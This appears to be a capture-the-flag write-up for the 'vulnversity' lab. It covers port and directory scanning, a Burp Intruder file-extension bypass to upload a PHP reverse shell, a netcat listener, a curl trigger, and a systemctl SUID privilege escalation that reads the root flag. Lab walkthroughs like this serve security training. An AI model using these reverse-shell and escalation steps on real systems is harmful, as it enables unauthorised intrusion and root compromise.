 # vulnversity

## nmap
```
Port 21 ftp
Port 22 ssh
Port 139 Samba
Port 445 Samba
Port 3128 Squid
Port 3333 http
```
## gobuster
```
/css
/font
/images
/index.html
/internal # provides upload facility with files stored held at /internal/uploads
/js
/server-status

```
## burp suite
We tested a standard file to see if it will upload. In this example we uploaded a text.php, in case we can use a reverse shell. This failed initially, so used burpe suite to do the following:

1. Intercept and attempt to upload a file.
2. Send the intercepted request to Intruder.
3. Clear payload positions and add by selecting the 'php' extension.
4. Select a payload set as a simple list (extensions_common.txt) and upload your payload list.
5. Start your attack.
6. Now filter your results to find the extension that the site accepted.
7. Now we know that .phtml is accepted amend the exploit.py to exploit.phtml.

## reverse shell
We will use the pentestmonkey reverse shell ensuring that as well as changing the extention to .phtml, that we update the IP address and Port of the attackers machine, in preperation for the netcat command.
```
nc -lnvp 9001
````
We now upload the file directly to the _/internal/upload_ folder and run it from the browser by clicking or by using a curl command.
```
curl ttp://10.10.74.180:3333/internal/uploads/php-reverse-shell.phtml
```
This now gives us access to a reverse shell. We can create a proper interactive shell by:
```
python -c 'import pty;pty.spawn("/bin/bash")'
```
We cannot access sudo permissions so let us look at SUID bit escalation:
```
find / -perm -4000 2>/dev/null
```
Using GTFObins we can see that there are two options for systemctl as SUID and sudo

```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```
* TF=$(mktemp).service: we will create a new environment variable called “TF” (the name can be anything). Next, we will be using the mktemp command to create a new temporary file as a system service file.
* echo '[Service]: use the echo command to enter an input into the system. The single quote (‘) will allow us to enter into multi-line mode so we can enter the rest of the commands.
* Type=oneshot: declare the service as oneshot, which means that the service will execute the action and then immediately exit.
* ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output": when the service starts, use the sh command to execute (-c) everything inside the double quotes. This will send the results of the command “/root/root.txt” into a file named output in the tmp directory.
* [Install]: denotes the second part of our system services file.
* WantedBy=multi-user.target' > $TF: set the service to run once it reaches a certain runlevel. Multi-user.target is runlevel 3, while a functional Linux OS with GUI is runlevel 5. This dependency input and everything before is then redirected into the TF variable. The single quote after target is to denote the end of our echo entry.
* Systemctl link $TF: link the TF variable to systemctl so it can be executed by systemctl even though it’s in a different path from other service files.
* systemctl enable --now $TF: enable the service file stored in the TF variable immediately. It will reload the system manager to ensure the changes are in effect.

Then just read the root flag file:
```
cat /tmp/output
```
